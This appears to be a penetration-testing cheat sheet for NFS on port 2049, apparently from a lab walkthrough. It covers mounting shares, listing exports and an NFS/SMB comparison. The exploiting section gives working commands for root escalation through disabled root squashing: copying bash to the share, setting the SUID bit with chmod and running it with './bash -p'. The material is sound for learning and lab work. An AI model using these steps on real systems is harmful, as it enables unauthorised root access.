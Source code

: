 # NFS/2049

**Mounting NFS shares**

Your client’s system needs a directory where all the content shared by the host server in the export folder can be accessed. You can create\
this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so:

```bash
sudo mkdir /tmp/mount
```

```bash
sudo mount -t nfs IPaddress:sharename /tmp/mount/ -nolock
```

**Checking NFS exports**

```bash
sudo showmount -e ipaddres
```



| Feature               | NFS                                                                         | SMB                                                                |
| --------------------- | --------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| Transport             | Typically **TCP/UDP**, uses **port 2049**                                   | Typically **TCP**, uses **ports 445 and 139**                      |
| Stateless vs Stateful | NFS v3: **stateless** (server doesn’t track client state), v4: **stateful** | Always **stateful** (maintains session info)                       |
| Performance           | Often faster in Unix/Linux environments due to lower overhead               | Can be slower over high-latency networks, but optimized in Windows |
| Caching               | NFS allows client-side caching                                              | SMB also supports caching, but it is more complex                  |

## Exploiting

```
    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS
                            
```

**What is root\_squash?**

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

**The Executable**

1\) Due to compatibility reasons,  we will obtain the bash executable directly from the target machine.\
With the key obtained in the previous task, we can use SCP with the command `scp -i key_name username@10.10.242.108:/bin/bash ~/Downloads/bash` to download it onto our attacking machine.

Another method to overcome compatibility issues is to obtain a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it [here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). If you want to download it via the command line, be careful not to download the github page instead of the raw script. You can use `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`.&#x20;

2\) Download the bash executable to your Downloads directory. Then use "cp \~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

3\) Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using `sudo chmod +s bashfile`. What letter do we use to set the SUID bit set using chmod?

4\) let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

5\) Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with _`./bash -p`_. The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions
